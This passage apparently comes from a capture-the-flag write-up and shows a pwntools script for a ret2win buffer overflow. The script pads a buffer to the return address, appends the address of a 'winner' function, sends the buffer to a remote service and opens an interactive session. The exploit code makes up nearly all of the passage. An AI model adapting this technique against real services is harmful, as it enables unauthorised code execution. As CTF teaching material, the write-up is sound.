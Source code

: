 ```python
port = int(port)                        # Pwntools expects an integer
p = remote(host, port)                  # Replace our process object with a remote object    

"""
# Configure GDB - start with a GDB script - breakpoint and start GEF
gdb_script = '''
    init-gef
    b *(run + 52)
    c
    '''
gdb.attach(p, gdb_script)       # Now attach to the reg process in gdb
"""

# Build our previous buffer, using bytes objects because python3
winner = context.binary.symbols['winner']   # Find winner
log.info(f"Found winner : {hex(winner)}")   # Tell user where it is
attack_buf = b"A" * 0x30 + b"S" * 0x8       # Start of our attack buffer (up to RP)
attack_buf += p64(winner)                   # This autmoates our little-endian conversion

# Send this directly to the process
p.recvuntil(b":")       # We need to receive 'Enter your name:' before we send
p.sendline(attack_buf)    # Send our buffer over

# We still switch to interactive, to keep the process open and script running as long as possible.
p.interactive()
```

And boom!

![Terminal Screenshot](/assets/images/posts/pwn_reg/Image33.png)
